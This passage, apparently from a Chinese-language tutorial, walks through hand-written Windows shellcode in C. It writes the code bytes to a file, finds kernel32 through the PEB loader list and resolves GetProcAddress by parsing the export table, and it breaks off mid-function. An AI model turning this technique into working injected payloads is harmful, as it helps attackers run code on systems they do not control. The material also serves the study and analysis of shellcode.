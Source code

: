 
下面这句是将ShellcodeStart函数开始的二进制文件内容写入到文件中。

```c
WriteFile(hbin, ShellcodeStart, dwSize, &dwWriten, NULL); //重点语句
```



a.start.cpp

这里是我们shellcode的内容，注意定义顺序。

```c
#include "header.h"

__declspec(naked) void ShellcodeStart() {
	__asm {
		jmp ShellcodeEntry
	}
}

__declspec(naked) DWORD getKernel32() {
	__asm {
		mov eax, fs: [30h]
		mov eax, [eax + 0ch]
		mov eax, [eax + 14h]
		mov eax, [eax]
		mov eax, [eax]
		mov eax, [eax + 10h]
		ret
	}
}

FARPROC _GetProcAddress(HMODULE hModuleBase) {
	PIMAGE_DOS_HEADER lpDosHeader = (PIMAGE_DOS_HEADER)hModuleBase;
	PIMAGE_NT_HEADERS32 lpNtHeader = (PIMAGE_NT_HEADERS)((DWORD)hModuleBase + lpDosHeader->e_lfanew);
	if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size) {
		return NULL;
	}
	if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress) {
		return NULL;
	}
	PIMAGE_EXPORT_DIRECTORY lpExports = (PIMAGE_EXPORT_DIRECTORY)((DWORD)hModuleBase + (DWORD)lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PDWORD lpdwFunName = (PDWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfNames);
	PWORD lpwOrd = (PWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfNameOrdinals);
	PDWORD lpdwFunAddr = (PDWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfFunctions);

	DWORD dwLoop = 0;
	FARPROC pRet = NULL;
	for (; dwLoop <= lpExports->NumberOfNames - 1; dwLoop++) {
		char* pFunName = (char*)(lpdwFunName[dwLoop] + (DWORD)hModuleBase);
		if (
			pFunName[0] == 'G' &&
			pFunName[1] == 'e' &&
			pFunName[2] == 't' &&
			pFunName[3] == 'P' &&
			pFunName[4] == 'r' &&
			pFunName[5] == 'o' &&
			pFunName[6] == 'c' &&
			pFunName[7] == 'A' &&
			pFunName[8] == 'd' &&
			pFunName[9] == 'd' &&
			pFunName[10] == 'r' &&
			pFunName[11] == 'e' &&
```
